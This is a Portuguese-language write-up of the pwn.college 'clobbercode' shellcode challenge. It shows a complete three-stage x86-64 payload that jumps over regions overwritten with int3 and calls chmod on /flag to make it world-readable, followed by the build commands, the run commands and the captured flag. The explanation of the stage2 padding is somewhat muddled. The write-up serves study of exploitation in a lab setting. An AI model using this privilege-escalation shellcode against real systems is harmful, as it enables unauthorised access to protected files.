




# pwn.college — Clobbercode (Shellcode Writing)
### Program Security · Shellcode Writing · Every-10-Bytes Clobber Constraint

> **Autor:** Pedro Tuttman  
> **Plataforma:** [pwn.college](https://pwn.college)  
> **Categoria:** Program Security — Shellcode Writing  
> **Técnicas:** Multi-stage shellcode · Clobber-aware layout · `jmp short` inter-stage control flow · NOP/null padding for stage alignment · `chmod` privilege escalation via shellcode · Relative path exploitation via working directory control

---

## Descrição do Desafio

O desafio `clobbercode` adiciona uma restrição incomum: após receber o shellcode, o binário **sobrescreve cada décimo byte de memória** com `0xcc` (`int3`). Especificamente, os intervalos sobrescritos são:

```
bytes 10–19   → int3 int3 int3 ... (10 bytes)
bytes 30–39   → int3 int3 int3 ...
bytes 50–59   → int3 int3 int3 ...
...
```

Qualquer instrução que caia nesses intervalos será corrompida e causará um crash ao ser executada. O objetivo continua sendo ler o `/flag`.

---

## Reconhecimento Inicial

Ao rodar o binário com o shellcode de `chmod` usado nos desafios anteriores (sem staged), foi possível observar diretamente no disassembly exibido pelo binário que os bytes 10–19 haviam sido substituídos por `int3` (`0xcc`). Qualquer instrução que cruzasse esse intervalo seria corrompida.

A solução foi montar um **shellcode staged**, dividindo o código em blocos que cabem nos intervalos não sobrescritos:

```
bytes  0– 9  → stage1 (10 bytes disponíveis)
bytes 10–19  → SOBRESCRITO com int3 (10 bytes inutilizáveis)
bytes 20–29  → stage2 (10 bytes disponíveis)
bytes 30–39  → SOBRESCRITO com int3 (10 bytes inutilizáveis)
bytes 40–49  → stage3 (restante do shellcode)
```

Cada stage precisa terminar com um `jmp short` que pule sobre a região sobrescrita, caindo no início do próximo stage.

---

## Construindo os Stages

### Stage1 — bytes 0–9 (10 bytes)

O stage1 configura `rdi` com o endereço da string `flag` (construída na stack) e salta para o stage2:

```asm
push 0x67616c66     # "flag" na stack — 5 bytes
mov rdi, rsp        # rdi aponta para "flag" — 3 bytes
jmp short stage2    # salta sobre os 10 int3 — 2 bytes
```

Total: **10 bytes exatos** — ocupa todo o espaço disponível antes da região sobrescrita.

### Stage2 — bytes 20–29 (10 bytes disponíveis, usado 7 + 3 de padding)

O stage2 configura `rax` e `rsi` e salta para o stage3. Um detalhe importante: se a primeira instrução do stage3 (`mov si, 0x1ff` — 4 bytes) fosse incluída no stage2, o stage2 ficaria com 9 bytes — sem espaço para o `jmp short` de 2 bytes. A solução foi deixar essa instrução para o stage3 e completar o stage2 com **3 bytes de padding nulo** para alinhar corretamente o salto:

```asm
push 90             # rax = 90 (chmod) — 2 bytes
pop rax             # — 1 byte
xor esi, esi        # zera rsi — 2 bytes
jmp short stage3    # salta sobre os 10 int3 — 2 bytes
.rept 3
.byte 0x90          # 3 bytes de padding
.endr
```

Total: **7 bytes de código + 3 de padding = 10 bytes**.

O `jmp short` do stage2 precisa pular os 10 bytes sobrescritos (bytes 30–39) e cair no byte 40 (início do stage3). Como o stage2 ocupa bytes 20–29, o `jmp short` está no byte 25 (offset 5 dentro do stage2). O destino é o byte 40 — distância de 13 bytes a partir do byte seguinte ao `jmp short` (byte 27). Por isso o padding é de 3 bytes: `jmp short` + 3 NOPs + 10 int3 = 15 bytes até o stage3... a conta exata é resolvida pelo assembler com o label `stage3`.

### Stage3 — bytes 40+ (sem restrição)

O stage3 finaliza a configuração de `rsi` e executa o `chmod`:

```asm
mov si, 0x1ff       # rsi = 0o777 — 4 bytes
syscall             # chmod("flag", 0777) — 2 bytes
```

Como o diretório de trabalho é `/` no momento da execução, o caminho relativo `flag` resolve para `/flag`.

---

## O Shellcode Final



```asm
.global _start
.intel_syntax noprefix

_start:
    push 0x67616c66         # "flag\0"
    mov rdi, rsp            # rdi aponta para "flag"
    jmp short stage2

.rept 10
.byte 0x90                  # 10 NOPs — região sobrescrita (bytes 10–19)
.endr

stage2:
    push 90
    pop rax                 # rax = 90 (chmod)
    xor esi, esi            # zera rsi
    jmp short stage3

.rept 13
.byte 0x90                  # 3 bytes de padding + 10 NOPs da região sobrescrita (bytes 30–39)
.endr

stage3:
    mov si, 0x1ff           # rsi = 0o777
    syscall                 # chmod("flag", 0777) → com cwd=/ equivale a chmod("/flag", 0777)
```

Compilando e extraindo:

```bash
gcc -nostdlib -static shellcode5.s -o shellcode5.elf
objcopy --dump-section .text=shellcode5.raw shellcode5.elf
```

---

## Verificando o Layout com o Binário

Ao executar, o binário exibiu o disassembly do shellcode após a sobrescrita — confirmando que os `int3` caíram exatamente nas regiões de padding/NOPs e não corromperam nenhuma instrução real:



Os `int3` aparecem nos bytes 10–19 (entre o `jmp short` do stage1 e o `push 90` do stage2) e nos bytes 30–39 (entre o `jmp short` do stage2 e o `mov si` do stage3) — exatamente onde estavam os NOPs de padding. Nenhuma instrução real foi corrompida.

---

## Execução e Resultado Final

```bash
cd /
cat shellcode5.raw | /challenge/clobbercode
cat flag
```





```
pwn.college{UgX8La1XBT5uC5nW8UAZ4Ahwbim.dVjMywCOzYTNxEzW}
```

---

## Resumo do Fluxo de Exploração

```
1. Shellcode sem staged → int3 corrompem instruções nos bytes 10–19 e 30–39
2. Estratégia: dividir o shellcode em 3 stages nos intervalos não sobrescritos
3. Stage1 (bytes 0–9): push "flag" + mov rdi, rsp + jmp short stage2 = 10 bytes
4. Stage2 (bytes 20–29): push/pop rax + xor esi + jmp short stage3 + 3 bytes padding = 10 bytes
5. Stage3 (bytes 40+): mov si, 0x1ff + syscall
6. Executado em / → "flag" relativo resolve para "/flag" → chmod funciona → flag obtida
```

---

## Layout de Memória do Shellcode

| Bytes | Conteúdo | Observação |
|---|---|---|
| 0–9 | stage1 | `push` + `mov rdi` + `jmp short` — 10 bytes |
| 10–19 | `int3` × 10 | Sobrescrito pelo binário |
| 20–29 | stage2 + padding | 7 bytes de código + 3 NOPs |
| 30–39 | `int3` × 10 | Sobrescrito pelo binário |
| 40–45 | stage3 | `mov si` + `syscall` |
